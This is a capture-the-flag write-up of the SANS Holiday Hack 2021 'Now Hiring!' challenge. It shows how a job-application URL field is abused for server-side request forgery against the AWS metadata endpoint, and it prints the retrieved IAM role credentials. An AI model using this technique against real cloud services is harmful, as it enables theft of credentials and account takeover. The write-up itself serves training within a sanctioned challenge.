



# Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 10. Now Hiring!
### 10.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree:  
What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

### 10.1. Side Challenge - IMDS Exploration

### 10.2. Hints
**AWS IMDS Documentation** - *Noxious O. D'or*: “The AWS documentation for IMDS is interesting reading.”

#### 10.3. Solution
The application form allows the insertion of an URL under the name of “URL to your public NLBI report”:  


I gave the URL of a computer I own and observed the application was fetching the URL specified without much control:
```bash
root@debian:~/hiring# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 …
34.132.188.111 - - [06/Jan/2022 08:44:41] "GET / HTTP/1.0" 200 -
34.132.188.111 - - [06/Jan/2022 08:44:56] code 404, message File not found
34.132.188.111 - - [06/Jan/2022 08:44:56] "GET /non-existent HTTP/1.0" 404 -
34.132.188.111 - - [06/Jan/2022 08:46:56] "GET /test_test_test HTTP/1.0" 200 -
```

When the file does not exist (`non-existent`), the application is just accepted:  


In case the file exist (`test_test_test`), the application shows more data:


Inspecting the broken image link, it is possible to recognize it is returning the content of the test page:
```bash
root@debian:~/hiring# curl "https://apply.jackfrosttower.com/images/asd.jpg"
Hi, I'm a test file!
```

At that point it was pretty straightforward to go ahead and test with AWS URLs considering the side challenge.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials I retrieved the "jf-deploy-role" user.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role:
```json
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```

As the challenge required the `SecretAccessKey`, it is `CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX`.

#### 10.4. Thank you for the proxy


---
## [2. Where in the World is Caramel Santiaigo?](README.md)
## [2.1. Side Challenge - Exif Metadata](README.md)
## [3. Thaw Frost Tower's Entrance](README.md)
## [3.1. Side Challenge - Grepping for Gold](README.md)
## [4. Slot Machine Investigation](README.md)
## [4.1. Side Challenge - Logic Munchers](README.md)
## [5. Strange USB Device](README.md)
## [5.1. Side Challenge - IPv6 Sandbox](README.md)
## [6. Shellcode Primer](README.md)
## [6.1. Side Challenge - Holiday Hero](README.md)
## [7. Printer Exploitation](README.md)
## [7.0. Description](README.md)
## [8. Kerberoasting on an Open Fire](README.md)
## [8.1. Side Challenge - HoHo … No](README.md)
## [9. Splunk!](README.md)
## [9.1. Side Challenge - Yara Analysis](README.md)
## [10. Now Hiring!](README.md)
## [10.1. Side Challenge - IMDS Exploration](README.md)
## [11. Customer Complaint Analysis](README.md)
## [11.1. Side Challenge - Strace Ltrace Retrace](README.md)
## [12. Frost Tower Website Checkup](README.md)
## [12.1. Side Challenge - The Elf C0de Python Edition](README.md)
## [13. FPGA Programming](README.md)
## [13.1. Side Challenge - Frostavator](README.md)
## [14. Bonus! Blue Log4Jack](README.md)
## [15. Bonus! Red Log4Jack](README.md)
---
## [0. windovo\\thedead> whoami](../README.md)
## [1. KringleCon Orientation](01.%20KringleCon%20Orientation/README.md)
## [16. That’s how Jack came from space](../README.md#16-thats-how-jack-came-from-space)
## [17. Narrative](../README.md#17-narrative)
## [18. Conclusions](../README.md#18-conclusions)